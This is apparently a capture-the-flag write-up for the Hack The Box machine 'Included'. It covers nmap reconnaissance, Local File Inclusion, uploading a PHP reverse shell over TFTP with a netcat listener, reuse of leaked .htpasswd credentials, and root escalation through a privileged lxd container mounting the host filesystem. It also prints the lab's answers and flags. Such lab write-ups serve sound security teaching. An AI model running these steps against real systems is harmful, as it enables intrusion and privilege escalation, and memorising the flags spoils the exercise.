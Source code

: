 # Included (Tier 2)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark> 2
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags&#x20;**<mark style="color:green;">**->**</mark> PHP / Custom Applications / Protocols / Apache / TFTP / LXD / Reconnaissance\
  &#x20;              / Local File Inclusion / Clear Text Credentials / Arbitrary File Upload

<figure><img src="../../.gitbook/assets/image (649).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=2</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* I started doing an initial scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap 10.129.156.215 -p- -Pn --min-rate 2500 -oN scan.txt
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (415).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the first questions

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

> Answer: _**22,6789,8080,8443**_

***

* Then to learn more about the service running on the open port, I did an exhaustive scan

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nmap 10.129.156.215 -p80 -sVC -oN serv_scan.txt
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (416).png" alt=""><figcaption></figcaption></figure>

***

* As I found an HTTP service running on port 80, I went to the browser to explore the content being deployed. I found a simple page for a business with anything relevant. What caught my attention was that the URL was retrieving the file of the page with a query, and maybe this could be vulnerable to a Local File Inclusion attack

<figure><img src="../../.gitbook/assets/image (417).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the HTTP protocol, you can go [here](../../networks/protocols/http/)
{% endhint %}

***

* So I tried to change the file name to a route of a file from the system, in this case, the well-known _/etc/password_ file, and noticed it let me see the content of this file, being, in fact, vulnerable to _Local File Inclusion,_ as I thought. Also checking the information from the file, I saw that in the system existed a profile named _tftp,_ which is the default for the TFTP protocol, also giving me the route to the folder where its configuration files should be

<figure><img src="../../.gitbook/assets/image (420).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (426).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about Local File Inclusion and its exploitation, you can go [here](../../web-exploitation/broken-access-control/local-file-inclusion.md)
{% endhint %}

***

* So, to confirm the system was using this protocol, I did a scan on the UDP ports of the system, as this protocol usually works over UD&#x50;_,_ and our previous scan didn't detect the service. With this, I found that the protocol was being used under its default port, the UDP port 69

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap 10.129.156.215 -sU -oN UDP_scan.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (427).png" alt=""><figcaption></figcaption></figure>

***

* With this, we answered the first questions

<figure><img src="../../.gitbook/assets/image (419).png" alt=""><figcaption></figcaption></figure>

> Answer: _**tftp**_

***

<figure><img src="../../.gitbook/assets/image (422).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Local File Inclusion**_

***

<figure><img src="../../.gitbook/assets/image (424).png" alt=""><figcaption></figcaption></figure>

> Answer: _**/var/lib/tftpboot/**_

***

* Knowing this, I tried connecting to the protocol and submitting a reverse shell script for _PHP,_ as this protocol doesn't let me list shared files, just download them or upload them. As it didn't give us any error, we closed the connection, assuming the file was on the server

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">tftp 10.129.156.215
<strong>tftp> put PHPshell.php
</strong>tftp> quit
</code></pre>

<figure><img src="../../.gitbook/assets/image (428).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the TFTP protocol, you can go [here](../../networks/protocols/tftp.md)
{% endhint %}

***

* Then, I set up a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener to be aware of the connection and called the script from the previously found folder where TFTP was storing its files. After hitting the direction, I noticed the page kept loading, and I had successfully caught a shell from the target. Then, I sanitized the terminal to work more comfortably with it

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp 4444
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (429).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (430).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

***

* As I gained access as the user from the web server, I had to find a way to make lateral movement to another user on the system with less restricted actions. First, I went to explore the default folder for servers  _/var/www/html,_ and looking at the hidden files found the _.htaccess_ and _.htpasswd_ files, which are related to the server configuration and usually store sensitive information

<figure><img src="../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the abuse of exposed _.htaccess_ or _.htpasswd_ files, you can go [here](../../web-exploitation/broken-access-control/exposed-.htaccess-and-.htpasswd-files.md)
{% endhint %}

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (438).png" alt=""><figcaption></figcaption></figure>

> Answer: _**.htpasswd**_

***

* So, checking the content of the _.htpasswd_ file, I found the credentials for the _mike_ user were being leaked, and after trying to change to this user using them, I successfully logged in. Then, I went to its _/home_ folder where I found a _user.txt_ file, and reading it, retrieved the user flag&#x20;

<figure><img src="../../.gitbook/assets/image (436).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (440).png" alt=""><figcaption></figcaption></figure>

***

* I needed to find a way to escalate privileges, so I tried to check the `sudo` permissions for the user, but didn't have any. After checking some information like local running services and special permissions on files, the only relevant thing I found was that the user was part of the _lxd_ group. So, with a little [research](https://canonical.com/lxd), I understood the use of _lxd_ as a tool for creating containers of operating systems. So, I checked if this tool was installed on the system, and it was

<figure><img src="../../.gitbook/assets/image (437).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (439).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

> Answer: _**lxd**_

***

* With this information, I searched for possible exploits of this tool and found an interesting [article](https://www.hackingarticles.in/lxd-privilege-escalation/) with a guide to do it. So, following the guide, I got an image for the _Alpine_ operating system and mounted a server to pass it from our machine to the target host. Then, I downloaded it and checked that it was on the target

{% code overflow="wrap" lineNumbers="true" %}
```bash
# On our machine
wget https://github.com/saghul/lxd-alpine-builder/alpine-v3.13-x86_64-20210218_0139.tar.gz
python3 -m http.server 1234

#On the target machine
wget http://10.10.14.117:1234/alpine-v3.13-x86_64-20210218_0139.tar.gz
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (638).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn the complete process for the privilege escalation abusing _lxd,_ you can go [here](../../penetration-testing/process-stages/post-exploitation/privilege-escalation/linux-privilege-escalation.md#abusing-lxd)
{% endhint %}

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (645).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Alpine**_

***

* After this, I imported the image and created a container using it, specifying high privileges and mounting the filesystem of the target inside it. Then, I started the container to interact with it

{% code overflow="wrap" lineNumbers="true" %}
```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine
lxc init alpine pwned -c security.privileged=true
lxc config device add pwned host-root disk source=/ path /mnt recursive=true
lxc start pwned
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (639).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (642).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (646).png" alt=""><figcaption></figcaption></figure>

> Answer: _**security.privileged=true**_

***

* With all this created, I generated a shell from the container having now access as the _root_ user to the complete filesystem. Last, I went to the mount point on the _/mnt/root_ folder where I found a _root.txt_ file, and reading its content, retrieved the root flag

{% code overflow="wrap" lineNumbers="true" %}
```bash
lxc exec pwned /bin/sh
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

***

* With this and the previously found user flag, I answered the last questions

<figure><img src="../../.gitbook/assets/image (647).png" alt=""><figcaption></figcaption></figure>

> Answer: _**/mnt/root/**_

***

<figure><img src="../../.gitbook/assets/image (648).png" alt=""><figcaption></figcaption></figure>

> Answer: _**a56ef91d70cfbf2cdb8f454c006935a1**_

***

* And finally, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (245) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**c693d9c7499d9f572ee375d4c14c7bcf**_
